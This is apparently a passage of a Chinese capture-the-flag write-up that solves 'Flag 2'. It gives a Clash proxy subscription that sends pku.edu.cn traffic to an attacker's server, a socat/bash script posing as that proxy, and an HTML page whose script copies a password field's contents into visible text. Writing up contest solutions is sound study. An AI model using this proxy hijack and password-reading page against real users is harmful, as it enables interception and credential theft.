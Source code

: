 ### Flag 2

这个略复杂，根据 `index.mjs` 源代码可以知道，后台需要访问 `ys.pku.edu.cn`，然而这个域名并不存在，因此我们需要构造一个代理服务器，让 Clash 去连接并访问我们指定的 HTML 文件，从而输出 flag。

构造订阅如下：

```yaml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: PROXY
    type: http
    server: _____________server_here_____________
    port: "8084"
    skip-cert-verify: true
rules:
  - DOMAIN-SUFFIX,pku.edu.cn,PROXY
```

```bash
#!/bin/bash
#### socat TCP-LISTEN:8084,fork,reuseaddr "server.sh"
echo -e 'HTTP/1.1 200 Connection Established\r\n\r\n'
sleep 1

echo -e 'HTTP/1.1 200 OK\r\nTransfer-Encoding: chunked\r\n'
filesize=$(stat -c%s "yuanshen.html")
printf "%x\r\n" $filesize
cat yuanshen.html
echo -e '\r\n0\r\n\r\n'
```

```html
<html>
  <head>
    <title>Yuanshen!!!!!!!!!!!!!!</title>
  </head>
  <body>
    <input id="primogem_code" type="password" />
    <span id="hack"></span>
    <script>
      var input = document.getElementById("primogem_code");
      var hack = document.getElementById("hack");
      setInterval(function() {
        hack.innerText = input.value;
      }, 100);
    </script>
  </body>
</html>
```
